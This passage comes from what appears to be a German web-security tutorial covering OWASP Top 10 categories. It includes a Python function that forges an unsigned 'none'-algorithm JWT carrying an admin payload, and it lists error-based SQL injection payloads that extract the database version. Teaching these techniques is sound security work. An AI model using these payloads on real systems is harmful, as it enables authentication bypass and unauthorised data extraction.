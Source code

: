 ### 4. Insecure Design
**Beschreibung:** Grundlegende Designfehler in der Anwendungsarchitektur

### 5. Security Misconfiguration
**Beschreibung:** Unsichere Standardkonfigurationen

**Beispiele:**
- Debug-Modus in Produktion
- Ungesicherte Cloud-Storage
- Fehlende Security Headers

### 6. Vulnerable and Outdated Components
**Beschreibung:** Verwendung veralteter Libraries mit bekannten Vulnerabilities

### 7. Identification and Authentication Failures
**Beschreibung:** Schwache Authentifizierung und Session Management

**JWT Token Manipulation:**
```python
def jwt_none_algorithm_attack(original_token):
    # Dekodiere original Token
    header, payload, signature = original_token.split('.')
    
    # Ändere Algorithmus zu "none"
    new_header = {"alg": "none", "typ": "JWT"}
    
    # Erstelle Admin Payload
    admin_payload = {"user": "admin", "role": "administrator"}
    
    # Erstelle neuen Token ohne Signatur
    malicious_token = f"{base64_encode(new_header)}.{base64_encode(admin_payload)}."
    
    return malicious_token
```

### 8. Software and Data Integrity Failures
**Beschreibung:** Code- und Infrastrukturschwächen bei Updates

### 9. Security Logging and Monitoring Failures
**Beschreibung:** Unzureichende Logging und Monitoring

### 10. Server-Side Request Forgery (SSRF)
**Beschreibung:** Server führt unvalidierte Requests aus

## 💻 Praktische Exploit-Techniken

### SQL Injection Deep-Dive

#### 1. Error-Based SQL Injection
```python
def error_based_sqli():
    # Provoziere SQL Fehler für Information Gathering
    payloads = [
        "' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION(), 0x7e))--",
        "' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--"
    ]
```
